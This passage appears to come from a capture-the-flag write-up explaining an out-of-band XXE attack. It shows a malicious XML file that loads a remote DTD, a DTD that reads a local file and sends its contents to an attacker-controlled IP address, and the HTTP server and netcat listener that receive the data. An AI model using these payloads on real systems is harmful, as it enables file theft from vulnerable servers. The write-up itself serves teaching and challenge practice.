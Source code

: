 First of all, let’s create the evil XML file that we will use to upload.

```console
root@kali:~/HH# gedit evil.xml
root@kali:~/HH# cat evil.xml 
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://18.218.75.54:8000/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
<
```

Simply, this file will download and run the commands from the __evil.dtd__ file that will be hosted on our public EC2 instance.
But, before we upload this file – we need to create the __evil.dtd__ file that will get the contents of __C:\greatbook.txt__ and will send it to a netcat listener on our EC2 instance.

The DTD file should look similar to the one below.

```console
ubuntu@ip-172-31-24-12:~$ nano evil.dtd 
ubuntu@ip-172-31-24-12:~$ cat evil.dtd 
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://18.218.75.54:4444/?%stolendata;'>">
```

Now that we have that ready, let’s set up a [SimpleHTTPServer](https://docs.python.org/2/library/simplehttpserver.html) via python, and a netcat listener on TCP/4444.

```console
ubuntu@ip-172-31-24-12:~$ python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
 ```

```console
ubuntu@ip-172-31-24-12:~$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

After that’s all said and done, we can upload the XML file.

<a href="https://jhalon.github.io/images/shh52.png"><img src="https://jhalon.github.io/images/shh52.png"></a>

I also capture the request via Burp just to make sure there were no errors when uploading.

<a href="https://jhalon.github.io/images/shh53.png"><img src="https://jhalon.github.io/images/shh53.png"></a>

You know that the file uploaded successfully when you are presented with and empty page such as the one below.

<a href="https://jhalon.github.io/images/shh54.png"><img src="https://jhalon.github.io/images/shh54.png"></a>

